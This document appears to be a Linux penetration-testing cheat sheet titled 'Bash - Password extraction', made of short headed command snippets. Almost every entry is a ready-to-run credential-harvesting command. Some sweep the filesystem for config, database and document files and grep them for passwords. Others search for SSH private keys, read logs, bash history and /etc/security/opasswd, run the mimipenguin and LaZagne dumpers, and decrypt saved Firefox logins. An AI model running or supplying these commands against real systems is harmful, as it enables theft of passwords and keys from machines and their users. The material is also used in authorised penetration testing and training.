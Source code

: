 # Bash - Password extraction

% linux, password extraction

## find - Search for config files
```
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib|fonts|share|core" ;done
```

## grep - Find credentials in files
```
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc|lib");do echo -e "\nFile: " $i; grep "user|password|pass" $i 2>/dev/null | grep -v "#";done
```

## find - Search for database files
```
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share|man";done
```

## find - Search for text files
```
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

## find - Search for script files
```
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share";done
```


## find - Search for document files
```
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib|fonts|share|core" ;done
```

## find - ssh private keys
```
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

## find - ssh pub keys
```
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

## find - log files
```
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## View crontab contents
```
cat /etc/crontab
```

## List cron files
```
ls -la /etc/cron.*/
```

## Search for PRIVATE KEY
```
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

## Search for PRIVATE KEY in home
```
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

## Search for ssh-rsa keys
```
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

## View bash history
```
tail -n5 /home/*/.bash*
```

## Run Mimipenguin.py
```
python3 mimipenguin.py
```

## Run Mimipenguin.sh
```
bash mimipenguin.sh
```

## Run Lazagne.py
```
python2.7 lazagne.py all
```

## Search Firefox profiles
```
ls -l .mozilla/firefox/ | grep default
```

## View Firefox logins
```
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

## Decrypt Firefox credentials
```
python3.9 firefox_decrypt.py
```

## Run Lazagne browsers module
```
python3 lazagne.py browsers
```

## Opasswd - old password
```
sudo cat /etc/security/opasswd
```
